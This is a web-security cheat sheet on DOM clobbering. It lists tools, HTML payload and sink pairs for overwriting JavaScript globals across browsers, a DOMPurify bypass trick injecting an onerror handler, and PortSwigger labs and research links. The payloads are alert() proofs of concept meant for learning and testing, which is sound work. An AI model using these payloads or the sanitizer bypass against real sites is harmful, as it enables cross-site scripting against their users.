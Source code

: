 # DOM Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
- [Lab](#lab)
- [References](#references)

## Tools

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - Comprehensive List of DOM Clobbering Payloads for Mobile and Desktop Web Browsers
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - A web-based tool designed for testing various HTML parsers and sanitizers.
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - Reveal how browsers parse HTML and find mutated XSS vulnerabilities

## Methodology

Exploitation requires any kind of `HTML injection` in the page.

- Clobbering `x.y.value`

    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

- Clobbering `x.y` using ID and name attributes together to form a DOM collection

    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

- Clobbering `x.y.z` - 3 levels deep

    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

- Clobbering `a.b.c.d` - more than 3 levels

    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

- Clobbering `forEach` (Chrome only)

    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

- Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute

    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

- Clobbering `x.username`

    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

- Clobbering (Firefox only)

    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

- Clobbering (Chrome only)

    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```

## Tricks

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

## Lab

- [PortSwigger - Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## References

- [Bypassing CSP via DOM clobbering - Gareth Heyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM Clobbering - HackTricks - January 27, 2023](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM Clobbering - PortSwigger - September 25, 2020](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM Clobbering strikes back - Gareth Heyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
- [Hijacking service workers via DOM Clobbering - Gareth Heyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
